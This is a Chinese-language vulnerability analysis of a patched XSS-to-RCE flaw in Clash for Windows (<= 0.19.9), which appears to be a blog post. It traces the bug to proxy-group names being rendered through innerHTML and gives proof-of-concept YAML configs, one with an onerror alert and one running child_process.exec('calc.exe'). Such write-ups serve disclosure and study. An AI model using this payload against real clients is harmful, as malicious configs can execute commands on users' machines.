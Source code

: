 ### 前言

Clash for Windows(以下简称CFW)是一款基于go语言开发的代理客户端，2月23日poc在github上公开，2月25日作者发布了修复版本。

### 漏洞影响版本

<= 0.19.9

### 一些思考

​	为什么说是从 xss 到 RCE ？在常规的漏洞挖掘中，利用较多的就是存储型xss，攻击者可以盗取一些信息比如网站拥有者的cookie，并进一步结合其他信息扩大攻击成果，仿佛很少能直接做到RCE，但是CFW为什么会被R呢？

​	反观CFW的设计模式，它是基于 Electron 框架开发而来的，而 Electron 是一个用 HTML、CSS 和 js 来构建跨平台桌面应用程序的一个开源库，这一点上和浏览器上的网页模式相同，在防护不到位的情况下就存在 XSS 漏洞的风险，从而执行任意js代码。CFW又与浏览器不同的是，CFW可以对主机本地文件进行读写操作，也可以调用一些系统函数，导致漏洞的危害性进一步扩大。

​	那CFW是如何产生 xss 的呢？在配置项中，可以看到存在一些yml文件，这些文件一定是经过了某种规则的渲染进而呈现在这个页面上，这里不妨看一下文件结构

![image-20220307150335494](image/Clash.for.Windows从XSS到RCE/image-20220307150335494.png)

```yaml
proxy-groups:
  - name: 🔰 节点选择
    type: select
    proxies:
      - ♻️ 自动选择
      - 🎯 全球直连
      - HK - 香港IEPL专线 - 01
```

![image-20220307151051115](image/Clash.for.Windows从XSS到RCE/image-20220307151051115.png)

可以看到这里的 name 和 proxies 属性都会在页面上进行渲染，不妨跟踪一下渲染规则

```js
e._l(e.conf["proxy-groups"], (function(t, n) {
	return i("div", {
		key: n,
		staticClass: "proxy-item left-item",
		on: {
			click: function(i) {
				return e.editGroup(t, n)
			}
		}
	},
	[i("div", {
		domProps: {
			innerHTML: e._s(e.$parseEmoji(t.name))
		}
	})
```

第13行 name 属性经过解析表情函数 parseEmoji 处理后，被直接插入到HTML中，从而造成了 XSS 漏洞

不妨验证一下，编写poc如下：

```yaml
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
  - name: xss-test
    type: socks5
    server: 127.0.0.1
    port: "17938"
    skip-cert-verify: true
  - name: abc
    type: socks5
    server: 127.0.0.1
    port: "8088"
    skip-cert-verify: true

proxy-groups:
  -
    name: xss-test<img/src="1"/onerror=alert(1);>
    type: select
    proxies:
    - xss-test
```

![image-20220307152003821](image/Clash.for.Windows从XSS到RCE/image-20220307152003821.png)

成功弹窗

### 漏洞复现

环境：win11 CFW：v0.18.4

在上面 xss 的基础上调用系统命令即可

POC：

```yaml
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
  - name: xss-test
    type: socks5
    server: 127.0.0.1
    port: "17938"
    skip-cert-verify: true
  - name: abc
    type: socks5
    server: 127.0.0.1
    port: "8088"
    skip-cert-verify: true

proxy-groups:
  -
    name: xss-test<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
    type: select
    proxies:
    - xss-test
```

![image-20220307152455723](image/Clash.for.Windows从XSS到RCE/image-20220307152455723.png)

### 漏洞危害

​	这样一个漏洞想要触发，现在我觉得是有点困难的，因为配置文件需手动导入或修改，这个漏洞爆出来后懂的人看一下就会知道有没有漏洞存在了，但不排除之前的在野利用，毕竟影响版本太广了，在不知情的情况下被上线了也是有可能的hhh，目前作者已经更新至v0.19.11，在新版本中，不再采用 innerHTML 属性。

![image-20220307153845858](image/Clash.for.Windows从XSS到RCE/image-20220307153845858.png)
